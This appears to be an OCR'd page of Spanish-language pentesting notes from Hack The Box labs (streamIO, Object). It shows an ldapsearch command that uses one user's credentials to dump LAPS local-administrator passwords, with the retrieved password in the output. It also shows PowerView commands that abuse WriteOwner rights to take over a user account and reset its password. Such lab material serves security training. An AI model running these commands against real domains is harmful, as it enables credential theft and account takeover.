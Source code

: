 ### Extraer credenciales de Administradores locales con LDAP

```
ldapsearch -H ldap://10.10.11.158 -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=streamIO,DC=htb> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd
#

# DC, Domain Controllers, streamIO.htb
dn: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: 4)(6&h9+7]QY+o

# search reference
ref: ldap://ForestDnsZones.streamIO.htb/DC=ForestDnsZones,DC=streamIO,DC=htb

# search reference
ref: ldap://DomainDnsZones.streamIO.htb/DC=DomainDnsZones,DC=streamIO,DC=htb

# search reference
ref: ldap://streamIO.htb/CN=Configuration,DC=streamIO,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

## Abuso WriteOwner

![https://rubbxalc.github.io/writeups/assets/img/Object-htb/14.png](https://rubbxalc.github.io/writeups/assets/img/Object-htb/14.png)

### Crear objeto y modificar las ACLs

```jsx
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -Rights ResetPassword -PrincipalIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $SecPassword = ConvertTo-SecureString 'pwned123$!' -AsPlainText -Force             
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $SecPassword
```
